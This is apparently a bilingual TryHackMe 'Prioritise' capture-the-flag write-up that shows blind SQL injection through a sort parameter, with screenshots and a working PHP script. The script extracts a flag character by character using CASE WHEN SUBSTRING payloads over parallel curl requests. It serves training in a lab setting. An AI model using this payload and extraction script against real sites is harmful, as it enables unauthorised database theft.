 # Prioritise
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/e2e0bd5c-78b8-4c76-aaac-b97acb185934)
<p>
バナーからSQLiの問題だとわかる。普通に80で簡単なサイトがあるのでSQLiを探す。

I saw it's a SQLi problem and found SQLi.
</p>

### sort by title

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/1a4dd085-d648-4e53-8c02-8adb4df8d950)

### sort by date

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/96f3e59c-a406-4f81-bf1e-cfd4a2689fcc)

### ' %27
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/a9f6dd30-0240-4825-b333-a3a966e56263)

### '' %27%27
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/912c196b-8866-4104-84f1-cd9fc4342b0a)


### sort by title ASC/DESC

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/b61644b0-68eb-4dcd-b8ea-1be30284fdd1)

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/d6294960-5c10-4dc8-b62f-3d337d0c605a)

### ORDER BY
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/294b8d76-130a-48d4-a608-1f897deb895d)

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/45c42801-69d8-4249-b98d-4a50d1a0bffe)

テーブルは４カラム

Table has 4 columns

Sqlmapでとれなかったのでしかたなくブラインドでやる😥

I couldn't get credentials with Sqlmap, so I had to do it with boolean based blind.

### Payload (Boolean based)
True(order by title)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/2a9ff095-aab0-46d4-990c-dcffcd875041)

False(order by date)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/f9c8a979-e121-411e-ad1e-c5a061ecfd06)

本当はレスポンスコードかContentLengthが異なるようにPayloadを組みたかったができなかった（TrueもFalseも同じLengthなので内容を確認する必要がある。これが地獄の始まり）。UNION SELECTもうまくできず。😞

I wanted to make the Payload so that the response code or Content Length was different, but I couldn't do it and UNION SELECT didn't work either.Since both True and False have the same Length, it's necessary to check the contents.

元ネタ
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

SQL確認用
https://sqliteonline.com/

### DB SQLite 3.XX
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/beed55e7-ccea-4f06-8d74-2f8be9eb1978)

### Table Num 2
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/620bff31-122a-4aeb-a91d-d2f842cc7883)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/b6cbdf7a-5c4a-4b52-83d1-e3c3834ffd04)

### Table Name Length 4
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/967ed28f-52a6-43d5-986a-65ce0e2afacb)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/328a6ab0-74cf-4c18-a943-4bd78475da82)

### Table Name flag
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/974cadf4-75c3-4540-abda-ee61662fce14)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/9518b684-f07c-41dd-bf1d-4ce503d1e0ea)

一文字ずつIntruderをまわし、レスポンスから文字を特定。

Use the Intruder by one character and identify the letter from the response.

全部やってみるとわかるが、もう一方のテーブル名はtodosで４カラム。flagは1カラム。

If you do it all, you'll see that the other table name is todos and has 4 columns. flag has 1 column.


### flag
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/f6001604-2f12-4476-a94b-e81e4b6989bf)

同じ要領でflag特定。
Get the flag value same way.

🚩 Congratulations! Thank you for your time, Happy hacking. 🌕🍡🌕🍡🌕🍡


## Omake

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/eb8ffcbe-8e91-4c11-88a0-8edf14aa863f)

今回はマルチのCURLで高速化をはかった。
またもちゃっとGPTにつくってもらった。
好みを学習したらしく最初と最後のMSGを自動でいれてくれた。感謝

```
<?php
echo "------ START ----- \n";
$flag = "";
$FLAGLEN=38;
$URL='http://10.10.143.81/';
$SEARCHDATE='2023-08-01';
$SEARCHDATELEN=101;
$strings = array(
    "0","1","2","3","4","5","6","7","8","9",
    "a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z",
    "A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z",
    "!","#","$","%","&","(",")","~","=","|","^","-","`","{","[","@","]","}","*",":",";","+","<",">","%20",".",
    "?","_" );

for ($i = 0; $i < $FLAGLEN; $i++) {
    // prm作成
    $prm = array();
    for ($j = 0; $j < count($strings); $j++) {
        $prm[$j] = '?order=(CASE+WHEN(SUBSTRING((SELECT+*+FROM+flag),'.($i + 1).',1)=%27'.$strings[$j].'%27)+THEN+title+ELSE+date+END)';
    }

    // CURL
    $mh = curl_multi_init();        // CURLマルチハンドルを初期化
    $handles = array();

    // 各URLに対してCURLハンドルを作成しマルチハンドルに追加
    foreach ($prm as $prm) {
        $ch = curl_init($URL.$prm);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_multi_add_handle($mh, $ch);
        $handles[] = $ch;
    }

    // マルチハンドルで複数のリクエストを同時に実行
    $running = null;
    do {
        curl_multi_exec($mh, $running);
    } while ($running > 0);

    // 各リクエストのレスポンスを処理
    foreach ($handles as $ch) {
        $response = curl_multi_getcontent($ch);
        
        // レスポンスを行ごとに分割
        $responseLines = explode("\n", $response);

        // 行ごとに "2023-08-01" を探す
        foreach ($responseLines as $lineNumber => $line) {
            if (strpos($line, $SEARCHDATE) !== false) {
                $target = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
                //$target = http://10.10.143.81/?order=(CASE+WHEN(SUBSTRING((SELECT+*+FROM+flag),1,1)=%27c%27)+THEN+title+ELSE+date+END)
                //echo 'URL: ' . $target . ' の行数: ' . $lineNumber."\n";
                if ($lineNumber != $SEARCHDATELEN) {
                    // flagの文字列の切り出し
                     if (preg_match('/%27.%27/', $target, $char)) {
                        $str = str_replace('%27', '', $char[0]);
                        echo $str;
                        $flag = $flag.$str;
                    }
                }
            }
        }
        curl_multi_remove_handle($mh, $ch);
        curl_close($ch);
    }

    curl_multi_close($mh);

    }
//echo "FLAG:".$flag."\n";
echo "\n------ END ------- \n";
?>
```


